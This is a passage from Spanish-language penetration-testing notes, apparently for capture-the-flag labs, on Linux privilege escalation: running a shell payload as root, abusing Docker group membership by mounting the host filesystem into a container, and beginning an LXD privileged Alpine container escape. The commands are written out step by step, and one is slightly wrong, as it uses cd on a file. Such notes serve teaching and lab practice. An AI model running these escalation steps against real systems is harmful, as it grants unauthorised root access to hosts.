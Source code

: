 ahora en la maquina victima podemos ejecutarlo:

```bash
./tmp/shell.elf
```

esto hara que se habra una  **/bin/bash** como el usuario Root.


## Docker

Hacemos un id y si el usuario esta en el grupo dockers (999) es que hay un docker.

Al igual si vemos muchas interfaces de red que puede ser de varias imagenes docker.

ver imagenes de docker:

```bash
docker images
```

ver contenedores:

```bash
docker ps
```

Acceder a un contenedor con modo interactivo:

```bash
docker exec -it <contenedor> bash
```


### Montura (mount)

Si estamos en el grupo docker o lxd podemos obtener una interaccion con un contenedor como Root, la idea es crear una montura de la raiz (/) del sistema operativo padre (host) dentro de la ruta /mnt de un contenedor en el accedemos como Root y poder leer el archivo root/home/root.txt.

Obviamente podemos hacer mas cosas.

```bash
docker run -v /:/mnt/ -i -t <nombre_contenedor> bash

cd /mnt/root/root.txt
```


### LXC / LXD

En caso de tener los permisos docker o lxd pero no hay ningun contenedor puede crearse un contenedor liviano como alphine.

Cree una imagen de Alpine e iníciela usando la bandera **security.privileged=true**, lo que obliga al contenedor a interactuar como raíz con el sistema de archivos del host.

desde kali:

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686
```
